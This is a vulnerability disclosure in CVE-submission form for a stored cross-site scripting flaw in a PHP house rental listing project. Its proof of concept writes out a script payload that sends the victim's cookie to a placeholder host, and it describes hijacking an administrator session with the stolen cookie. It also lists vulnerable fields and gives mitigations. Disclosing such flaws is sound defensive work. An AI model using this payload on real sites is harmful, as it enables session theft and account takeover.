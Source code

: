 **CVE ID:** [Reserved ID - To be assigned by CNA]

---
### **CVE Submission**

**Title:** Stored Cross-Site Scripting (XSS) in House Rental and Property Listing Project PHP,MySQL v1.0 via `/app/list.php`

---

### **Overview**
A stored Cross-Site Scripting (XSS) vulnerability exists in the House Rental and Property Listing Project PHP,MySQL (v1.0) due to improper sanitization of user-supplied input in the registration module. An authenticated attacker can inject malicious JavaScript payloads into the application, which are then stored and executed when legitimate users access affected pages, leading to session hijacking, credential theft, or other client-side attacks.

---

### **Affected Products**
- **Product Name:** House Rental and Property Listing Project PHP,MySQL  
- **Vendor Homepage:** [projectworlds](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)  
- **Affected Version:** v1.0  
- **Fixed Version:** Not patched as of [date] (Unknown)  
- **Vulnerable File:** `/app/list.php`  
- **Software Link:** [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  

---

### **Vulnerability Details**
- **CWE-ID:** CWE-79 - Improper Neutralization of Input During Web Page Generation  
- **Attack Vector:** Remote  
- **Impact:** Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) 
- **Vulnerability Type:** Stored XSS  

**Technical Description:**  
The `/app/list.php` component fails to sanitize user-controllable input fields (`fullname`, `address`, or other registration room parameters) before storing them in the database. This allows attackers to inject arbitrary JavaScript code, which is rendered unsafely on pages accessible to other users (e.g., admin panels, property listings, or user profiles).

---

### **Proof of Concept (PoC)**
**Steps to Reproduce:**  

1. First, register a user account and log into the system.

![image-20250313235009389](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313235009389.png?x-oss-process=style/img-to-webp)

2. Navigate to the registration page: `http://[target]/app/register.php`.  

3. Inject a malicious payload into a vulnerable input field (e.g., `<script>fetch('http://[ip]/?cookie=' + encodeURIComponent(document.cookie));</script>`).  

![image-20250313235954178](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313235954178.png?x-oss-process=style/img-to-webp)

3. Submit the registration  Room form.  

![image-20250314002029758](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314002029758.png?x-oss-process=style/img-to-webp)

4. The payload is stored in the database.  

5. When an administrator or user views the affected data (/app/list.php), the script executes.  Then, obtain the administrator's PHPSESSID.

![image-20250314000638889](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314000638889.png?x-oss-process=style/img-to-webp)

6. Log into the system using the administrator's PHPSESSID.

![image-20250314001022390](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314001022390.png?x-oss-process=style/img-to-webp)

**Observed Result:**  

![image-20250314001207922](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250314001207922.png?x-oss-process=style/img-to-webp)

**Expected Result:**  
User input should be sanitized to prevent script execution.  

### Vulnerability location:

1. /app/register.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - country
   - city
   - landmark
   - rent
   - sale
   - deposit
   - plot_number
   - rooms
   - state
   - address
   - address
   - description
   - image
   - open_for_sharing

2. /app/update.php
   - fullname
   - mobile
   - alternat_mobile
   - email
   - plot_number
   - rooms
   - country
   - stat
   - city
   - rent
   - sale
   - deposit
   - accommodation
   - description
   - landmark
   - address

---

### **Impact**
Successful exploitation allows:  
- Stealing session cookies or authentication tokens.  
- Redirecting users to phishing pages.  
- Performing actions on behalf of authenticated users.  
- Defacing the application interface.  

---

### **Mitigation Recommendations**
1. **Input Sanitization:** Implement strict input validation and output encoding (e.g., using `htmlspecialchars()` or `htmlentities()` in PHP).  
2. **Content Security Policy (CSP):** Deploy CSP headers to restrict inline scripts.  
3. **Database Sanitization:** Sanitize all user inputs before database insertion.  
4. **Framework Safeguards:** Use modern PHP frameworks (e.g., Laravel, Symfony) with built-in XSS protections.  

---

### **References**
- **Vendor Advisory:** Not available.  
- **Software Download:** [home-rental.zip](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)  
- **CWE Documentation:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html)  

---

### **Credits**
- **Submitter:** takakie  
- **Report Date:** [14/03/2025]  

